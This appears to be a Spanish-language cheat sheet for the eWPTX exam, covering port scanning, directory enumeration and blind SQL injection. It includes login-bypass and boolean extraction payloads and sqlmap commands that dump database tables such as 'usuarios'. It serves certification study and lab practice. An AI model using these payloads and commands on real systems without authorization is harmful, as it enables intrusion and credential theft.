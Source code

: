 # eWPTX
---
## Escaneo de puertos
![image](https://github.com/user-attachments/assets/02a7281d-02c7-43ec-afe6-ece2eecf0317)

nmap -n -Pn -p- --open -vvv -T5 [IP] 

## Enumeración
![image](https://github.com/user-attachments/assets/1d95388b-e208-4b30-8e2c-ad1943a44dee)

dirb http://172.17.0.2/ [rockyou, common, big] -N 401 (Ignora un método) -r (No es recursivo)
##
dirsearch -u http://[IP]/ -w [WORDLIST] -t 16 -e php,txt -f (NO ESTÁ DISPONIBLE EN EL EXAMEN)

---

## 💉 Inyección SQL (SQLi): Blind SQLi
En el examen: MAGENTO ES VULNERABLE A SQLi

En las inyecciones a ciegas, el resultado no se ve en la pantalla (son deductivas... a partir del comportamiento de la aplicación)
### BOOLEAN
Tiene un comportamiento verdadero o falso (0 o 1)

|User: |' OR 1=1-- -|
|----|-----|
|Pass: |' OR 1=1-- -|

|User: |' OR (substring(database(),1,1))='p' -- -|
|-------|-------------|
|Pass: |' OR (substring(database(),1,1))='p' -- -|

|User: |' OR (ascii(substring(database(),1,1)))='45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))='45' -- -|

|User: |' OR (ascii(substring(database(),1,1)))>'45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))>'45' -- -|

Se puede automatizar con el BurpSuite:

Intruder --> payloads (numero) --> 32-126 

settings --> Redirections (always)


---
### TIME
Tiempo de carga (¿Cuanto demora en carga una página web?)


### OOB
Si se puede lelvar la info fuera del servidor
## 

### SQLMAP
--technique=BTU

--risk=

1: Payload a nivel de select y uniones

2: Payload de tiempo. Por ejemplo SLEEP.

3: Payload basados en BOOLEAN en OR

--level=

1: inyecciones en metodos GET/POST

2: inyecciones en las cookies

3: inyecciones en los headers: user-agent, referer

4: inyecciones todos los headers

5: inyecciones en todos los parametros sin excepción

### Boolean

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 --current-db --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB --tables --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB -T usuarios --dump --dbms=mysql

### Time

- sqlmap -r request_time.txt -p descripción --technique=T --risk=3 --level=3 --current-db --dbms=mysql --flush-session

---

## ♟️ Estratégia
1. Iniciar por el CMS MAGENTO
   
   - Version: [IP]/magento/magento_version
